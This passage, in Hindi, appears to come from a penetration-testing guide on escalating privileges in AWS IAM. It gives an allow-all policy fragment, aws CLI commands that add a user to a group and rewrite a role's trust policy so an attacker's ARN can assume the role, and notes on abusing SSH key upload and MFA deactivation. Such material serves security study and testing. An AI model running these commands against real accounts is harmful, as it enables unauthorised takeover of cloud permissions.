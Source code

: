 ```json
{
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}
```
**प्रभाव:** नीतियों के माध्यम से अनुमतियों को जोड़कर सीधे विशेषाधिकार वृद्धि।

### **`iam:AddUserToGroup`**

IAM समूह में स्वयं को जोड़ने की अनुमति देता है, समूह की अनुमतियों को विरासत में लेकर विशेषाधिकार बढ़ाता है।

**शोषण:**
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
**प्रभाव:** समूह की अनुमतियों के स्तर तक सीधे विशेषाधिकार वृद्धि।

### **`iam:UpdateAssumeRolePolicy`**

एक भूमिका के असुमे भूमिका नीति दस्तावेज़ को बदलने की अनुमति देता है, भूमिका और इसके संबंधित अनुमतियों के अधिग्रहण को सक्षम बनाता है।

**शोषण:**
```bash
aws iam update-assume-role-policy --role-name <role_name> \
--policy-document file:///path/to/assume/role/policy.json
```
जहाँ नीति निम्नलिखित की तरह दिखती है, जो उपयोगकर्ता को भूमिका ग्रहण करने की अनुमति देती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Principal": {
"AWS": "$USER_ARN"
}
}
]
}
```
**प्रभाव:** किसी भी भूमिका की अनुमतियों को ग्रहण करके सीधे विशेषाधिकार वृद्धि।

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

कोडकमिट के लिए प्रमाणीकरण के लिए SSH सार्वजनिक कुंजी अपलोड करने और MFA उपकरणों को निष्क्रिय करने की अनुमति देता है, जिससे संभावित अप्रत्यक्ष विशेषाधिकार वृद्धि हो सकती है।
